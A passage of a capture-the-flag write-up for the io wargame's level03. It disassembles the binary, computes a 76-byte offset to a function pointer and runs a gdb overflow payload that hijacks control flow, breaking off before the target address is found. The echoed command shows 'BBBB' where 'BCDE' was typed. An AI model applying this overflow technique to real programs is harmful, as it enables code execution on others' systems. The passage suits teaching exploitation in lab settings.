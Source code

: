 We can do the same to find out where is `buffer`.

```sh
   0x08048519 <+81>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804851c <+84>:	add    eax,0x4
   0x0804851f <+87>:	mov    eax,DWORD PTR [eax]
   0x08048521 <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048525 <+93>:	lea    eax,[ebp-0x58]
   0x08048528 <+96>:	mov    DWORD PTR [esp],eax
   0x0804852b <+99>:	call   0x804838c <memcpy@plt>
```
From the above snippet, `buffer` is at `ebp-0x58`

Now, we just need to find the distance between `buffer` and `functionpointer`
```py
>>> 0x58-0xc
76
```
From above, we see it actually takes 76 bytes to reach the local variable `functionpointer` instead of 50 bytes.

## testing out
```sh
level3@io:/levels$ gdb level03
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from level03...(no debugging symbols found)...done.
(gdb) run $(python -c "print 76*'A'+'BCDE'")
Starting program: /levels/level03 $(python -c "print 76*'A'+'BBBB'")
This is exciting we're going to 0x45444342

Program received signal SIGSEGV, Segmentation fault.
0x45444342 in ?? ()
```
Here, we used $() to evaluate a bash command before passing as argument 1.
`python -c` allows us to run a string as command. 

0x42 is the letter 'B'. We can see that the program says "we're going to 0x45444342".
The program crashes because 0x45444342 is an illegal address.

## Finding address of good.
There are multiple ways to achieve this, I'm going to list some but the list is not exhausive.
